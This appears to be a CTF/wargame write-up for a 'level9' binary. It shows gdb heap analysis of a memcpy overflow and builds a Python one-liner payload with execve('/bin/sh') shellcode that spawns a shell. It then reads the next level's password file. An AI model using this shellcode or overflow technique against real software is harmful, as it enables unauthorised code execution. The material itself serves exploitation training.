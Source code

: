 # level09

## disassemble

```shell
objdump -dC -M intel level9 > source.txt
# objdump --disassemble --demangle --disassembler-options intel level9 > source.txt
```

## find_a_vulnerability

### get_first_address_of_the_heap

```shell
gdb level9

# 8048617:	e8 14 ff ff ff       	call   8048530 <operator new(unsigned int)@plt>
# 804861c:	89 c3                	mov    ebx,eax
(gdb) break *0x804861c
(gdb) run BBBB
(gdb) info registers
eax            0x804a008	134520840
```

The fisrst address : `0x804a008`

### memcpy_to_edx

#### call_edx

```
080485f4 <main>:
 [...]
 8048693:       ff d2                   call   edx
 [...]
```

#### memcpy's_vulnerability

* write on heap

```shell
gdb level9
# 8048733:	e8 d8 fd ff ff       	call   8048510 <memcpy@plt>
# 8048738:	c9                   	leave
(gdb) break *0x8048738
(gdb) run BBBB
(gdb) x/42x 0x804a008
0x804a008:	0x08048848	0x42424242	0x00000000	0x00000000
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000005	0x00000071
0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000
```

* segmentation fault

```bash
python2.7 -c 'print("BBBB" * 27)' > /tmp/exploit.txt
gdb level9
(gdb) run $(cat /tmp/exploit.txt)
Starting program: /home/user/level9/level9 $(cat /tmp/exploit.txt)
[Inferior 1 (process 6537) exited with code 0110]
```

```bash
python2.7 -c 'print("BBBB" * 28)' > /tmp/exploit.txt
gdb level9
(gdb) run $(cat /tmp/exploit.txt)
Starting program: /home/user/level9/level9 $(cat /tmp/exploit.txt)

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) x/42x 0x804a008
0x804a008:	0x08048848	0x42424242	0x42424242	0x42424242
0x804a018:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a028:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a038:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a048:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a058:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a068:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a078:	0x42424242	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000
```

First address       : `0x804a008 + 4` --> `0x804a00c` --> "\x0c\xa0\x04\x08"
Second address      : `0x804a008 + 8` --> `0x804a010` --> "\x50\x88\x04\x08"
Segfault's address	: `0x804a078`


## exploit

* shellcode (https://www.exploit-db.com/exploits/42428) : `\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`

```shell
python2.7 -c 'print( "" \
        + "\x10\xa0\x04\x08" \
        "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"  \
        + ("...." * 20) \
        + "\x0c\xa0\x04\x08" \
        )'\
        > /tmp/exploit.txt
./level9 $(cat /tmp/exploit.txt)
```

## flag

```shell
cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```